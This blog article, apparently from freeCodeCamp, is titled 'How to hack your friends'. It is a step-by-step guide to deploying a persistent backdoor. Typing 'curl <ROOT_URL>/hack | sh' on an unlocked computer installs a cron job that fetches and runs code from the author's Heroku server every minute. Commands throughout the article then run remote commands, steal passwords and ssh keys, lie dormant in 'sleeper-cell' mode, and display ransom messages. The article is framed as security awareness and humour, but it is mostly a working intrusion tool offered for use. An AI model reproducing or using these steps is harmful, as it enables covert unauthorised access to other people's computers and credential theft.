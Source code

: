 ```yaml
---
author: Chet Corcos
authorTwitter: false
authorFacebook: https://facebook.com/1165511785
title: "How to hack your friends"
subTitle: "My friends often leave their computers open and unlocked. I tell them they should probably get in the habit of locking their computers, b..."
coverSrc: https://cdn-images-1.medium.com/max/2000/1*CRdFzUjOuDE-qB0ASTk9yQ.jpeg
url: https://medium.freecodecamp.org/how-to-hack-your-friends-eef055389344
id: how-to-hack-your-friends-eef055389344
date: 2016-07-27T18:46:15.178Z
tags: [
  "Security",
  "Humor",
  "Tech",
  "Technology",
  "Programming"
]
---
```

# How to hack your friends







![](https://cdn-images-1.medium.com/max/2000/1*CRdFzUjOuDE-qB0ASTk9yQ.jpeg)







My friends often leave their computers open and unlocked. I tell them they should probably get in the habit of locking their computers, but they don’t listen to me. So I’ve created a simple project to hack my friends and show them the importance of computer security.

All I need to do is wait for them to leave their computer unlocked for a few seconds, open up their terminal, and type a single, short command.



![](https://cdn-images-1.medium.com/max/1600/1*ZRZjvQp1_tVNl_jl6gxDWA.png)



That’s it! Their computer is now infected and I can run whatever commands I want on this computer remotely. Pretty sweet, right? Or perhaps shocking?

Hacking is illegal. Specifically:

> “intentionally access[ing] a computer without authorization or exceed[ing] authorized access” — The Computer Fraud and Abuse Act (18 U.S.C. 1030)

So keep in mind that the purpose of this article is to show you just how easy it would be for someone with bad intentions to hack you so you can avoid getting hacked yourself.

It doesn’t take some hacker genius to wreck your life — any “script kiddy” who can gain physical access to your computer can compromise you by downloading a script containing just 50 lines of code.

### Getting Setup

All of the code for this project lives in [this repository](https://github.com/ccorcos/hack/) if you want to jump right in, but I’ll explain how it all works below.

First, you just need to clone the repo, install its dependencies, and symlink the _hack_ command line interface (CLI) tool.

<pre name="bb06" id="bb06" class="graf graf--pre graf-after--p">git clone [https://github.com/ccorcos/hack.git](https://github.com/ccorcos/hack.git)  
git remote remove origin  
cd hack  
npm install  
npm link</pre>

Next, you need to setup Heroku to host the scripts that will be running on your friends machine. If you’ve never used Heroku before, [signup here](https://signup.heroku.com/) (it’s free!) and set up their CLI tool on your machine.

<pre name="0651" id="0651" class="graf graf--pre graf-after--p">brew install heroku-toolbelt  
heroku login</pre>

Now inside the _hack_ repo, create a Heroku app with an easy name to remember. I’m using _hacker-chet._

<pre name="086a" id="086a" class="graf graf--pre graf-after--p">heroku create hacker-chet</pre>

Then you need to run a command to do a little setup. All it’s really doing is getting the root url for your Heroku website and putting it in your _package.json_. This way the server can inject the app url into the shell scripts.

<pre name="d970" id="d970" class="graf graf--pre graf-after--p">npm run init</pre>

You can start up the server locally if you want to hack yourself and test things out.

<pre name="9707" id="9707" class="graf graf--pre graf-after--p">npm start</pre>

Or you can deploy to Heroku.

<pre name="7740" id="7740" class="graf graf--pre graf-after--p">npm run deploy</pre>

Now you’re ready to hack!

### Hack API

The beauty of this program is that to start hacking someone, you just need to run a single command on their machine.

<pre name="8056" id="8056" class="graf graf--pre graf-after--p">curl <ROOT_URL>/hack | sh</pre>

_ROOT_URL_ is the specific path to your application. When you’re running the server locally, this will be _localhost:5000_ and when you deploy to Heroku, it will be something like _<APP_NAME>.herokuapp.com_.

What this does is sets up a cron job — a “chronological job” that reruns tasks at certain times — to ping the _/env/live_ endpoint every minute and pipes the result to _sh_. It’s actually quite simple! And Heroku gives you HTTPS for free so its “secure” right?

Once you’ve hacked your friend, you can do everything else with the command line tool from your computer.

The _hack_ tool has a concept of different hacked environments. When you hack someone using the _/hack_ endpoint, that person starts off in the _live_ environment. And for each environment, you can run a variety of different commands. I’ll demonstrate everything with a little walkthrough.

The following will rewrite the _live_ environment shell script to execute the following command which will say aloud “I’m watching you.”

<pre name="265c" id="265c" class="graf graf--pre graf-after--p">hack live exec "say 'I\'m watching you'"</pre>

Well it’s not going to work yet, you still have to re-deploy to your Heroku app.

<pre name="724a" id="724a" class="graf graf--pre graf-after--p">hack deploy</pre>



![](https://cdn-images-1.medium.com/max/1600/1*MLClljpzv4v1oVqbniDc1Q.png)



Now wait for the next minute and watch your friend’s computer ping your server by tailing the server logs.

<pre name="11b2" id="11b2" class="graf graf--pre graf-after--p">hack logs</pre>



![](https://cdn-images-1.medium.com/max/1600/1*S1TvBHYx1BjAqPlHh3PYUw.png)



The whole point of environments is so you can hack multiple people at the same time. To isolate people in different environments, you just need to change the name.

<pre name="0217" id="0217" class="graf graf--pre graf-after--p">hack live rename jon</pre>

Next time the live environment is pinged, it will rewrite the cron job to start pinging the _jon_ environment instead.



![](https://cdn-images-1.medium.com/max/1600/1*qUlhTFkuDzVyikrkF8mLpg.png)



You can do everything the same just by changing the environment argument.

<pre name="84e0" id="84e0" class="graf graf--pre graf-after--p">hack jon exec "say 'hello jon'"</pre>

Now if you’ve had enough fun for the day and the party’s over, you can _forget_ Jon and assure him that you’ve “unhacked” him.

<pre name="9d14" id="9d14" class="graf graf--pre graf-after--p">hack jon forget</pre>

This will erase the cron job from their computer. Or you might want to just put this environment in sleeper-cell mode so you can recover it later.

<pre name="b300" id="b300" class="graf graf--pre graf-after--p">hack jon interval 1d</pre>

Now, rather than pinging your server every minute (the default), it will ping every day at midnight. And when you want to wake it back up, you can change the interval back to every minute and the next day, you’re good to go!

<pre name="ae1f" id="ae1f" class="graf graf--pre graf-after--p">hack jon interval 1m</pre>

Some other fun things to do are setting up additional cron jobs. Here’s how you can wake your friend up at 6am every morning to remind him about computer security.

<pre name="e69e" id="e69e" class="graf graf--pre graf-after--p">hack jon cron "0 6 * * * say 'good morning jon, remember what I told you about locking your computer?'"</pre>

P.S. If you don’t remember how cron jobs work, [this is a great resource](http://www.nncron.ru/help/EN/working/cron-format.htm). It pretty much all comes down to this little diagram.

<pre name="a6b2" id="a6b2" class="graf graf--pre graf-after--p">* * * * *  
| | | | |  
| | | | |  
| | | | +---- Day of the Week   (range: 1-7, 1 standing for Monday)  
| | | +------ Month of the Year (range: 1-12)  
| | +-------- Day of the Month  (range: 1-31)  
| +---------- Hour              (range: 0-23)  
+------------ Minute            (range: 0-59)</pre>

One of my favorites is the _desktop_ preset which will download an image from a given URL and set it as the background photo.

<pre name="8c5b" id="8c5b" class="graf graf--pre graf-after--p">hack jon preset desktop [http://i.imgur.com/5FC2r9R.jpg](http://i.imgur.com/5FC2r9R.jpg)</pre>

And if you’ve written a ton of cron jobs and you don’t know what’s on there anymore, you can use the dump command.

<pre name="8fa2" id="8fa2" class="graf graf--pre graf-after--p">hack jon dump "crontab -l"</pre>

Now whip open your logs and you’ll see the output on the next ping. This is actually much more sinister now that you can get information back. If you wanted to be more nefarious, you can search for decrypted passwords or steal their ssh keys.

<pre name="c4e4" id="c4e4" class="graf graf--pre graf-after--p">hack jon preset passwords  
hack jon preset ssh</pre>

But if you just want to give him a good old-fashioned scare, send him a ransom message!

<pre name="0fd7" id="0fd7" class="graf graf--pre graf-after--p">hack jon preset ransom "Hello Jon, I told you not to leave your computer unlocked."</pre>



![](https://cdn-images-1.medium.com/max/1600/1*LVKyqVyEoy6oynsrcuwP_w.png)



Lastly, if you find yourself adding a bunch of cron jobs and just want to start over, reset is here to help.

<pre name="4106" id="4106" class="graf graf--pre graf-after--p">hack jon reset</pre>

Now go have (responsible) fun with this thing and let me know what your favorite pranks are by [submitting a pull request](https://github.com/ccorcos/hack) with a new command or preset!

Happy Hacking!








